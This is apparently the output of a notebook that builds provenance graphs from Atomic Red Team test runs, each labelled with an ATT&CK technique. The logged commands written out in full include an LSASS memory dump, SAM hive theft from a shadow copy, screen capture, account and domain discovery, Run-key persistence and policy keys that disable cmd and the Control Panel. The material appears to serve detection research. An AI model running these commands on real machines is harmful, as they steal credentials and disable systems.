760783 : "C:\Windows\System32\rundll32.exe"_C:\windows\System32\comsvcs.dll_MiniDump_388_C:\Users\ezk\AppData\Local\Temp\svchost-exe.dmp_full&C:\Windows\System32\rundll32.exe&rundll32.exe&11120
624572 : C:\Users\ezk\AppData\Local\Temp\svchost-exe.dmp
../graph_others2/T1003_18f31c311ac208802e88ab8d5af8603e.png has been generated!
T1087.001_6334877e8e3ba48f7835d4856d90a282


<Figure size 432x288 with 0 Axes>



 48%|████▊     | 79/165 [01:21<00:38,  2.26it/s]

Number of relations in the graph: 5
531311 : cmd.exe_/C_net_user_&&_dir_c:\Users\_&&_cmdkey.exe_/list_&&_net_localgroup_"Users"_&&_net_localgroup&C:\Windows\system32\cmd.exe&cmd.exe&9912
553201 : net__user_&C:\Windows\system32\net.exe&net.exe&6812
571717 : C:\Users\*
412065 : cmdkey.exe__/list_&C:\Windows\system32\cmdkey.exe&cmdkey.exe&784
124507 : net__localgroup_"Users"_&C:\Windows\system32\net.exe&net.exe&9448
../graph_others2/T1087.001_6334877e8e3ba48f7835d4856d90a282.png has been generated!
T1016_7d8ee68f0e9731db82964f558f614608


<Figure size 432x288 with 0 Axes>



 48%|████▊     | 80/165 [01:21<00:40,  2.08it/s]

Number of relations in the graph: 5
496577 : cmd.exe_/C_ipconfig_/all_&&_netsh_interface_show_interface_&&_arp_-a_&&_nbtstat_-n_&&_net_config&C:\Windows\system32\cmd.exe&cmd.exe&2288
209049 : ipconfig__/all_&C:\Windows\system32\ipconfig.exe&ipconfig.exe&7092
309061 : netsh__interface_show_interface_&C:\Windows\system32\netsh.exe&netsh.exe&8772
27244 : arp__-a_&C:\Windows\system32\ARP.EXE&ARP.EXE&5876
555974 : nbtstat__-n_&C:\Windows\system32\nbtstat.exe&nbtstat.exe&9652
../graph_others2/T1016_7d8ee68f0e9731db82964f558f614608.png has been generated!
T1113_316251ed-6a28-4013-812b-ddf5b5b007f8


<Figure size 432x288 with 0 Axes>



 49%|████▉     | 81/165 [01:22<00:35,  2.38it/s]

Number of relations in the graph: 5
224455 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$loadResult_=_[Reflection.Assembly]::LoadWithPartialName(\"System.Drawing\");function_screenshot([Drawing.Rectangle]$bounds,_$path)_{___$bmp_=_New-Object_Drawing.Bitmap_$bounds.width,_$bounds.height;___$graphics_=_[Drawing.Graphics]::FromImage($bmp);___$graphics.CopyFromScreen($bounds.Location,_[Drawing.Point]::Empty,_$bounds.size);___$bmp.Save($path);___$graphics.Dispose();___$bmp.Dispose();}if_($loadResult)_{__$bounds_=_[Drawing.Rectangle]::FromLTRB(0,_0,_1000,_900);__$dest_=_\"$HOME\Desktop\screenshot.png\";__screenshot_$bounds_$dest;__if_(Test-Path_-Path_$dest)_{____$dest;____exit_0;__};};exit_1;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8524
572410 : C:\Users\ezk\Desktop\screenshot.png
../graph_others2/T1113_316251ed-6a28-4013-812b-ddf5b5b007f8.png has been generated!
T1040_6881a4589710d53f0c146e91db513f01


<Figure size 432x288 with 0 Axes>



 50%|████▉     | 82/165 [01:22<00:32,  2.56it/s]

Number of relations in the graph: 5
560351 : cmd.exe_/C_netsh_trace_start_capture=yes_tracefile=%temp%\trace.etl_maxsize=10&C:\Windows\system32\cmd.exe&cmd.exe&7276
417357 : netsh__trace_start_capture=yes_tracefile=C:\Users\ezk\AppData\Local\Temp\trace.etl_maxsize=10&C:\Windows\system32\netsh.exe&netsh.exe&6972
136071 : C:\Users\ezk\AppData\Local\Temp\trace.etl
../graph_others2/T1040_6881a4589710d53f0c146e91db513f01.png has been generated!
T1003.002_5a484b65c247675e3b7ada4ba648d376


<Figure size 432x288 with 0 Axes>



 50%|█████     | 83/165 [01:22<00:29,  2.80it/s]

Number of relations in the graph: 5
59395 : powershell.exe_-ExecutionPolicy_Bypass_-C_"write-host_\"\";_$shadowlist_=_get-wmiobject_win32_shadowcopy;_$volumenumbers_=_foreach($shadowcopy_in_$shadowlist){$shadowcopy.DeviceObject[-1]};_$maxvolume_=_($volumenumbers_|_Sort-Object_-Descending)[0];_$shadowpath_=_\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\"_+_$maxvolume_+_\"\Windows\System32\config\SAM\";_$mydump_=_$ENV:temp_+_'\'_+_'myhive';_[System.IO.File]::Copy($shadowpath_,_$mydump)"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9784
163768 : C:\Users\ezk\AppData\Local\Temp\myhive
../graph_others2/T1003.002_5a484b65c247675e3b7ada4ba648d376.png has been generated!
T1491_47d08617-5ce1-424a-8cc5-c9c978ce6bf9


<Figure size 432x288 with 0 Axes>



 51%|█████     | 84/165 [01:22<00:27,  2.95it/s]

Number of relations in the graph: 5
688310 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-Content_-Path_'message.txt'_-Value_'proof_that_this_machine_was_hacked.'"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7152
371417 : C:\Windows\System32\message.txt
../graph_others2/T1491_47d08617-5ce1-424a-8cc5-c9c978ce6bf9.png has been generated!
T1059.001_702bfdd2-9947-4eda-b551-c3a1ea9a59a2


<Figure size 432x288 with 0 Axes>



 52%|█████▏    | 85/165 [01:23<00:27,  2.87it/s]

Number of relations in the graph: 5
101148 : powershell.exe_-ExecutionPolicy_Bypass_-C_"powershell.exe_-c_\"Get-WmiObject_-class_win32_operatingsystem_|_select_-property_*_|_export-csv_msdebug.log\";"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1200
136751 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-c_"Get-WmiObject_-class_win32_operatingsystem_|_select_-property_*_|_export-csv_msdebug.log"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3352
97481 : C:\Windows\System32\msdebug.log
../graph_others2/T1059.001_702bfdd2-9947-4eda-b551-c3a1ea9a59a2.png has been generated!
T1482_6131397e-7765-424e-a594-3d7fb2d93a6a


<Figure size 432x288 with 0 Axes>



 52%|█████▏    | 86/165 [01:23<00:25,  3.05it/s]

Number of relations in the graph: 5
222206 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Import-Module_.\powerview.ps1_-Force;Get-NetDomain_|_ConvertTo-Json_-Depth_1"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&6876
295768 : C:\Users\ezk\AppData\Local\Microsoft\Windows\SchCache\blueteam.com.sch
../graph_others2/T1482_6131397e-7765-424e-a594-3d7fb2d93a6a.png has been generated!
T1547.001_163b023f43aba758d36f524d146cb8ea


<Figure size 432x288 with 0 Axes>



 53%|█████▎    | 87/165 [01:24<00:27,  2.85it/s]

Number of relations in the graph: 5
379546 : cmd.exe_/C_REG_ADD_"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"_/V_"Atomic_Red_Team"_/t_REG_SZ_/F_/D_"C:\Path\AtomicRedTeam.exe"&C:\Windows\system32\cmd.exe&cmd.exe&11260
311659 : REG__ADD_"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"_/V_"Atomic_Red_Team"_/t_REG_SZ_/F_/D_"C:\Path\AtomicRedTeam.exe"&C:\Windows\system32\reg.exe&reg.exe&228
269180 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
444514 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Atomic_Red_Team
../graph_others2/T1547.001_163b023f43aba758d36f524d146cb8ea.png has been generated!
T1547.001_d3ef4145e4144fd694514b1c5cc17350


<Figure size 432x288 with 0 Axes>



 53%|█████▎    | 88/165 [01:24<00:28,  2.74it/s]

Number of relations in the graph: 5
446932 : cmd.exe_/C_REG_ADD_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend_/v_1_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\cmd.exe&cmd.exe&660
438474 : REG__ADD_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend_/v_1_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\reg.exe&reg.exe&7008
638222 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend
701275 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend\1
../graph_others2/T1547.001_d3ef4145e4144fd694514b1c5cc17350.png has been generated!
T1069.002_6103e503cb444bc7b4187704f2035708


<Figure size 432x288 with 0 Axes>



 54%|█████▍    | 89/165 [01:24<00:30,  2.50it/s]

Number of relations in the graph: 4
39062 : cmd.exe_/C_net_localgroup_&&_net_group_/domain_&&_net_group_"domain_admins"_/domain_&&_net_group_"enterprise_admins"_/domain&C:\Windows\system32\cmd.exe&cmd.exe&10556
747577 : net__localgroup_&C:\Windows\system32\net.exe&net.exe&10576
426829 : net__group_/domain_&C:\Windows\system32\net.exe&net.exe&2128
666241 : net__group_"domain_admins"_/domain_&C:\Windows\system32\net.exe&net.exe&6588
89931 : net__group_"enterprise_admins"_/domain&C:\Windows\system32\net.exe&net.exe&9512
../graph_others2/T1069.002_6103e503cb444bc7b4187704f2035708.png has been generated!
T1486_d82ceb9939d3d920ee550187ad8235c8


<Figure size 432x288 with 0 Axes>



 55%|█████▍    | 90/165 [01:25<00:28,  2.67it/s]

Number of relations in the graph: 4
595027 : cmd.exe_/C_echo_T1486_-_Purelocker_Ransom_Note_>_%USERPROFILE%\Desktop\YOUR_FILES.txt&C:\Windows\system32\cmd.exe&cmd.exe&228
796104 : C:\Users\ezk\Desktop\YOUR_FILES.txt
../graph_others2/T1486_d82ceb9939d3d920ee550187ad8235c8.png has been generated!
T1112_cab7b85611a290c0769546bfa9d6f962


<Figure size 432x288 with 0 Axes>



 55%|█████▌    | 91/165 [01:25<00:26,  2.78it/s]

Number of relations in the graph: 3
591979 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoControlPanel_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&8176
151401 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoControlPanel_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&4388
430521 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoControlPanel
../graph_others2/T1112_cab7b85611a290c0769546bfa9d6f962.png has been generated!
T1112_4bfb5f265a5ce07af6bf10da113af7db


<Figure size 432x288 with 0 Axes>



 56%|█████▌    | 92/165 [01:25<00:26,  2.78it/s]

Number of relations in the graph: 3
213413 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoTrayContextMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&10868
374296 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoTrayContextMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&4816
604972 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoTrayContextMenu
../graph_others2/T1112_4bfb5f265a5ce07af6bf10da113af7db.png has been generated!
T1518_8ddfaf982ab359cda13626b870ccb339


<Figure size 432x288 with 0 Axes>



 56%|█████▋    | 93/165 [01:26<00:26,  2.73it/s]

Number of relations in the graph: 3
88027 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(Get-ItemProperty_'HKLM:\SOFTWARE\Microsoft\Internet_Explorer').Version"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9436
704355 : HKLM\SOFTWARE\Microsoft\Internet_Explorer\svcVersion
673784 : cmd.exe_/C_reg_query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\cmd.exe&cmd.exe&8704
32030 : reg__query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\reg.exe&reg.exe&6844
../graph_others2/T1518_8ddfaf982ab359cda13626b870ccb339.png has been generated!
T1112_fa4ba6a06b4a5cd955ea5a60fae24281


<Figure size 432x288 with 0 Axes>



 57%|█████▋    | 94/165 [01:26<00:25,  2.84it/s]

Number of relations in the graph: 3
422665 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoClose_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&2920
566229 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoClose_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&10316
347355 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoClose
../graph_others2/T1112_fa4ba6a06b4a5cd955ea5a60fae24281.png has been generated!
T1049_a14392d713dffba6a397682ff83259a0


<Figure size 432x288 with 0 Axes>



 58%|█████▊    | 95/165 [01:26<00:25,  2.74it/s]

Number of relations in the graph: 3
744868 : cmd.exe_/C_netstat_&&_net_use_&&_net_sessions&C:\Windows\system32\cmd.exe&cmd.exe&4988
416231 : netstat__&C:\Windows\system32\NETSTAT.EXE&NETSTAT.EXE&8208
742545 : net__use_&C:\Windows\system32\net.exe&net.exe&8252
721514 : net__sessions&C:\Windows\system32\net.exe&net.exe&1420
../graph_others2/T1049_a14392d713dffba6a397682ff83259a0.png has been generated!
T1112_34041639e6e501856ecaf5969ee29c76


<Figure size 432x288 with 0 Axes>



 58%|█████▊    | 96/165 [01:27<00:24,  2.78it/s]

Number of relations in the graph: 3
675627 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFind_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&10396
159720 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFind_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&9744
400041 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoFind
../graph_others2/T1112_34041639e6e501856ecaf5969ee29c76.png has been generated!
T1112_35c0360d226cf38104f300d9d57ce60e


<Figure size 432x288 with 0 Axes>



 59%|█████▉    | 97/165 [01:27<00:23,  2.86it/s]

Number of relations in the graph: 3
470682 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System"_/v_"DisableCMD"_/t_REG_DWORD_/d_"1"_/f&C:\Windows\system32\cmd.exe&cmd.exe&10596
306463 : reg__add_"HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System"_/v_"DisableCMD"_/t_REG_DWORD_/d_"1"_/f&C:\Windows\system32\reg.exe&reg.exe&10832
22152 : HKCU\SOFTWARE\Policies\Microsoft\Windows\System\DisableCMD
../graph_others2/T1112_35c0360d226cf38104f300d9d57ce60e.png has been generated!
T1007_d6bb2a19da7246731ed9c44831b135f8


<Figure size 432x288 with 0 Axes>

